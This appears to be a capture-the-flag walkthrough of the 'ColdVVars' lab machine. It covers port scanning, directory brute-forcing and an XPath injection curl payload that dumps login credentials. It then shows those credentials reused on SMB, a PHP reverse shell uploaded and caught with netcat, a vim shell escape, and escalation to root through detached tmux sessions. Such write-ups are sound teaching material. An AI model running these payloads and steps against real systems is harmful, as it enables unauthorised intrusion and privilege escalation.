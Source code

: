 COLDVVARS
=========

Initial scan with nmap

```bash
# Nmap 7.91 scan initiated Mon Jul 12 18:35:15 2021 as: nmap --min-rate 300 -sC -sV -A -oN initial 10.10.66.56
Nmap scan report for 10.10.239.74 (10.10.239.74)
Host is up (0.14s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE     VERSION
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
8080/tcp open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8082/tcp open  http        Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: Host: INCOGNITO

Host script results:
|_clock-skew: mean: 1m35s, deviation: 0s, median: 1m35s
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-07-12T13:07:07+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-12T13:07:07
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jul 12 18:35:35 2021 -- 1 IP address (1 host up) scanned in 20.30 seconds
```

smb shared are not allowed anonymous login so we need to find some credentials.

```bash
[+] Guest session       IP: 10.10.239.74:445    Name: 10.10.239.74                                      
        Disk            Permissions     Comment
        ----            -----------     -------
        print$          NO ACCESS       Printer Drivers
        SECURED         NO ACCESS       Dev
        IPC$            NO ACCESS       IPC Service (incognito server (Samba, Ubuntu))
```

there are 2 webpage are hosted in 2 ports try `gobuster` and find any hidden directory

found `note.txt` file in port `8080`.

<br>

```bash
└─$ gobuster dir -u http://10.10.239.74:8080/dev  -w /usr/share/dirb/wordlists/common.txt -x txt,bak,old,html -t 40              1 ⚙
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.239.74:8080/dev
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,bak,old,html
[+] Timeout:                 10s
===============================================================
2021/07/13 21:33:43 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/note.txt             (Status: 200) [Size: 45] 
===============================================================
2021/07/13 21:35:12 Finished
===============================================================
```
<br>

![](/Images/coldvvars/note.png)

<br>

next `gobuster` scan 2<sup>nd</sup> website on port `8081`.

```bash
└─$ gobuster dir -u http://10.10.239.74:8082  -w /usr/share/dirb/wordlists/common.txt -x txt,bak,old,html -t 40                  1 ⚙
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.239.74:8082
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              bak,old,html,txt
[+] Timeout:                 10s
===============================================================
2021/07/13 21:39:51 Starting gobuster in directory enumeration mode
===============================================================
/Login                (Status: 200) [Size: 1605]
/login                (Status: 200) [Size: 1605]
/static               (Status: 301) [Size: 179] [--> /static/]
                                                              
===============================================================
2021/07/13 21:41:19 Finished
===============================================================
```

we can find login page in there,

![](/Images/coldvvars/login.png)

after trying something figure it out its vulnerable to `XPath Injection` you can read about it [**here**](https://medium.com/@shatabda/security-xpath-injection-what-how-3162a0d4033b).

using this command

```bash
curl -X 'POST' -d $'username=\" or 1=1 or \"a\"=\"a&password=a&submit=Login' 'http://10.10.239.74:8082/login'
```

![](/Images/coldvvars/xpathi.png)

now lets try those username and password with `smb`, luckily one set match.

```bash
└─$ smbmap -H 10.10.239.74 -u ArthurMorgan -p DeadEye                      1 ⚙
[+] IP: 10.10.239.74:445        Name: 10.10.239.74                                
        Disk                    Permissions     Comment
        ----                    -----------     -------
        print$                  READ ONLY       Printer Drivers
        SECURED                 READ, WRITE     Dev
        IPC$                    NO ACCESS       IPC Service (incognito server (Samba, Ubuntu))
```

login in smb using `smbclient` and download any interesting file.

`smbclient //10.10.239.74/SECURED --user=ArthurMorgan%DeadEye`

![](/Images/coldvvars/smb.png)

when we download we can see its content same as `note.txt` we found in web.
so we can upload php reverse shell to same `smb` share

```bash
└─$ smbclient //10.10.239.74/SECURED --user=ArthurMorgan%DeadEye                                                                 1 ⚙
Try "help" to get a list of possible commands.
smb: \> put rev.php 
putting file rev.php as \rev.php (11.9 kb/s) (average 11.9 kb/s)
smb: \> 
```

start nc listner and execute file and get the shell.

![](/Images/coldvvars/shell.png)

There are so many `tmux` sessions maybe those will come in handy. 

currently we are `www-data` user we can try is same password reused.

as expected same password work, so now need to find another way to escalate, when we enumerate find this in `env`.

```bash
ArthurMorgan@incognito:~$ env
APACHE_LOG_DIR=/var/log/apache2
LANG=en_US.UTF-8
INVOCATION_ID=06c6f19506b04e35ad1a0e98d169f3d0
APACHE_LOCK_DIR=/var/lock/apache2
XDG_SESSION_ID=c1
USER=ArthurMorgan
PWD=/home/ArthurMorgan
HOME=/home/ArthurMorgan
JOURNAL_STREAM=9:19597
APACHE_RUN_GROUP=www-data
APACHE_RUN_DIR=/var/run/apache2
APACHE_RUN_USER=www-data
OPEN_PORT=4545
MAIL=/var/mail/ArthurMorgan
SHELL=/bin/sh
TERM=xterm
APACHE_PID_FILE=/var/run/apache2/apache2.pid
SHLVL=2
LOGNAME=ArthurMorgan
XDG_RUNTIME_DIR=/run/user/1001
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
_=/usr/bin/env
OLDPWD=/
```

port `4545` is open try to connect to that port and see.

![](/Images/coldvvars/esca.png)

4th option will exit to `vim` from that we can escape to `marston` terminal, go can check it from [gtfobin](https://gtfobins.github.io/gtfobins/vim/#shell)

![](/Images/coldvvars/arthur.png)

its not stable shell so using that we need to get better shell, start nc listner with different port.

![](/Images/coldvvars/marston.png)

We can see user `marston` tmux dettached sessions, we can attach session with.

```
tmux attach			# attach session

"CTRL + B" then "6"		# move to 6th panel in tmux

"CTRL + B" then "UP arrow"	# move to up window which is root terminal

"CTRL + B" then "d"		# to dettach from tmux
```

after following steps we can get into root terminal and we can read the `root.txt` flag.

![](/Images/coldvvars/root.png)

Happy Hacking!!!
